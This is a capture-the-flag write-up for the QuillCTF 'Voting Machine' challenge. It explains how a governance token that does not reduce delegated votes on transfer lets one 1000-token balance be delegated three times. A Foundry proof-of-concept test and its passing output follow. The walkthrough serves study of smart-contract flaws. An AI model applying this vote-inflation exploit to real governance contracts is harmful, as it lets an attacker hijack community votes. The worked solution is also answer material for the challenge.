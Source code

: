 # QuillCTF : Voting Machine

## Object of CTF
vToken is a governance token that allows holders to vote on proposals for the community. As a hacker, you have proposed a malicious proposal and now you need 3000 votes to get it accepted in your favor. Hacker has access to private keys of three other users i.e, Alice, Bob and Carl. Alice has 1000 vTokens but Bob and Carl has none.
Goal here is to get 3000 votes for hacker and also a balance of 1000 vTokens.

## Vulnerability Of VotingMachine Smart Contract
Vulnerability lies in the fact that the vToken Smart Contract does not update deligates voting rights upon the transfer of vTokens. So if let's say Alice has 1000 vTokens and she deligates the hacker. The hacker in this case will have a 1000 voting rights. Now if Alice's tokens are transfered to let's say Bob, ideally deligates voting rights should be reduced by the same amount transfered to Bob but that is not happening. So, if now Bob delegates Hacker, hacker will then have voting rights increased by the amount of vTokens Bob has. And hence these voting rights are created from thin air without extra vTokens.

## Proof Of Concept
### Foundry Test


    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.12;
    
    import "forge-std/Test.sol";
    import "../src/VotingMachine.sol";
    
    contract exploitTest is Test {
    	VoteToken vToken;
    	address public owner = address(0);
    	address public hacker =address(1337);
    
    	address public alice= address(1);
    	address public bob = address(2);
    	address public carl = address(3);
    
    	function setUp() public {
    		vm.startPrank(owner);
    		vToken = new VoteToken();
    		vToken.mint(alice, 1000);
    		vm.stopPrank();
      }
    	
    	function testExploit() public {
        vm.startPrank(alice);
            
            // soluiton
    	// First hacker will use Alice account and give himself 
    	// the deligation (or voting power)
    	vToken.delegate(hacker);
    
    	// the hacker will transfer all 1000 token to Bob
    	vToken.transfer(bob, 1000);
    	vm.stopPrank();
    
    	// now hacker will use Bob's account as he has the private key of
    	// Bob too
    	vm.startPrank(bob);
    
    	// hacker will repeat the same process and send tokens to Carl this time
    	vToken.delegate(hacker);
    	vToken.transfer(carl, 1000);
    	vm.stopPrank();
    	
    	// finally hacker will repeat the same process with Carl and send
    	// all 1000 tokens to his own address
    	vm.startPrank(carl);
    
    	vToken.delegate(hacker);
    	vToken.transfer(hacker, 1000); 
    	
    
        vm.stopPrank();
    
    		uint hacker_vote = vToken.getVotes(hacker);
        console.log("Vote Count of Hacker before attack: %s ", hacker_vote);
    
    		uint hacker_balance= vToken.balanceOf(hacker);
        console.log("Hacker's vToken after the attack: %s: ", hacker_balance);
    
    		assertEq(hacker_vote , 3000);
    		assertEq(hacker_balance, 1000);
    	}
    }

	

### Foundry test output
	$ forge test --match-path test/AttackVotingMachine.t.sol -vvv
    [⠒] Compiling...
    No files changed, compilation skipped
    
    Running 1 test for test/AttackVotingMachine.t.sol:exploitTest
    [PASS] testExploit() (gas: 203293)
    Logs:
      Vote Count of Hacker before attack: 3000
      Hacker's vToken after the attack: 1000:
    
    Test result: ok. 1 passed; 0 failed; finished in 4.10ms
